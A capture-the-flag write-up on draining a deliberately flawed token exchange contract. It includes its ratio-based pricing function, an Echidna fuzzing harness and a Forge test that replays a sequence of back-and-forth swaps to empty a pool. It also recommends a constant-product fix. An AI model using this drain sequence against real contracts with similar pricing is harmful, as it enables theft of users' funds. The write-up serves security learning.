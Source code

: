 # DEX Capture the Ether

My approach here was to first find the exploit call sequence using Echidna, then take that call sequence over to a Forge/Foundry version of the project and verify that I can replicate it there, and also inspect the contract state to understand why the exploit works.

The attack basically consists of "swinging" the liquidity of the pools back and forth. We swap token A for B, then B for A, then A for B, back and forth with progressively larger amounts until we've drained all the tokens from one of the pools.

The flaw in the DEX is in using the price (the ratio between the tokens) to determine how much of the output token the swapper should receive. The `getSwapPrice` function calculates the `swapAmount` for the `swap` function by simply multiplying the input amount by the ratio of the two tokens.

As the token pools become unbalanced this model starts to "bleed" tokens. The DEX should be re-architected to use a constant product model like Uniswap. In a constant product model liquidity is provided along a curve which does not bleed tokens.

```js
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```

## Echidna

```js
function swap(address from, address to, uint256 amount, uint256 approveAmount) public {
    // pre-conditions
    // only two addresses are valid, and amount should be <= balance
    if (from < to) {
        from = tokenAAddress;
        to = tokenBAddress;
        amount = amount % tokenA.balanceOf(address(this)) + 1;
    } else {
        to = tokenAAddress;
        from = tokenBAddress;
        amount = amount % tokenB.balanceOf(address(this)) + 1;
    }
    if (approveAmount < amount) {
        // if approve amount less than amount, swap them
        uint256 temp;
        temp = approveAmount;
        approveAmount = amount;
        amount = temp;
    }

    // record state snapshots for echidna
    State memory state = State(from, to, amount);
    states.push(state);
    for (uint256 i = 0; i < states.length; i++) {
        emit Log(states[i].from, states[i].to, states[i].amount);
    }

    // action
    dexContract.approve(dexAddress, approveAmount);
    dexContract.swap(from, to, amount);

    // post-condition
    assert(tokenA.balanceOf(address(this)) < 100 && tokenB.balanceOf(address(this)) < 100);
}
```

## Forge

```js
function testAttack() public {
    vm.startPrank(alice);
    dexContract.approve(dexAddress, 1e18);

    dexContract.swap(A, B, 10);
    dexContract.swap(B, A, 18);

    dexContract.swap(A, B, 22);
    dexContract.swap(B, A, 24);

    dexContract.swap(A, B, 20);
    dexContract.swap(B, A, 20);

    dexContract.swap(A, B, 34);
    dexContract.swap(B, A, 54);

    assert(tokenA.balanceOf(alice) > 100);
}
```
